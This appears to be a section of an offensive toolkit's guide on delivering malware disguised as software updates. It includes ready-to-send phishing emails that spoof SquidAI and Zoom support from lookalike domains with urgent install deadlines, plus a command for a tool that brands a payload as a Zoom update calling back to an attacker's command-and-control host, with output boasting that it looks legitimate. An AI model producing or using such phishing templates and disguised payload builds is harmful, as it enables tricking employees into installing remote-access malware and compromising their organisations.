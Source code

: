 ### How to Deliver:

**Email:**
```
From: it-support@squidai-updates.com
Subject: SquidAI Bot - Critical Update Required

Hi Team,

A critical update for SquidAI Bot is now available.

This update fixes a security issue and must be installed
by Friday, October 20.

Download: https://updates.squidai.com/bot-update

The update takes 2 minutes and requires a restart.

Thanks,
SquidAI Support Team
```

---

## 🔥 Strategy 2: Use Popular Business Apps

**Everyone expects updates from:**
- ✅ Zoom
- ✅ Microsoft Teams  
- ✅ Slack
- ✅ Chrome
- ✅ VPN clients

### Example: Zoom Update

```bash
# Build Zoom-branded payload (already preset!)
python3 tools/payload_brander.py \
  --template zoom \
  --c2-host YOUR_IP \
  --c2-port 443 \
  --delivery-package
```

**Result:**
```
✅ Zoom-Update-5.16.10.exe
✅ Professional landing page
✅ Email templates included
✅ Looks 100% legitimate
```

**Email Template (included):**
```
From: security@zoom-updates.com
Subject: Critical Zoom Security Update

A critical security update is available for Zoom.

Download: https://zoom-security.net/update

This update patches a newly discovered vulnerability
and is not yet available through automatic updates.

Install now to protect your meetings.

```